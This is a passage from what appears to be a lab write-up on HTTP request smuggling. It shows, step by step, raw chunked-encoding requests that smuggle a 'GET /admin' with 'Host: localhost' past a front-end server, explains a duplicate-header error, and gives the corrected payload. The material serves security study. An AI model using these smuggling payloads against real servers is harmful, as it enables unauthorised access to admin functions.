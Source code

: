 So we change `/jjj...` to `/admin` and after attack, norm requests we get `401 Unauthorized`
So we modify the attack req again (we add `Host: localhost`):
```bash
POST / HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Transfer-Encoding: chunked
\r\n
3\r\n
abc\r\n
0\r\n
\r\n
GET /admin HTTP/1.1\r\n
Host: localhost
Random: x
```

We then send attack, norm reqs and in response we get: `"error":"Duplicate header names are not allowed"`

It happens because when we send the norm req, the poisoned backend server will try to parse the following:
```bash
GET /jjjjjjjjjj HTTP/1.1
Host: localhost
Random: xPOST / HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```
And as we can see there are 2 `Host` headers

So we now change the attack req again:
```bash
POST / HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Transfer-Encoding: chunked
\r\n
3\r\n
abc\r\n
0\r\n
\r\n
GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
\r\n
x=
```
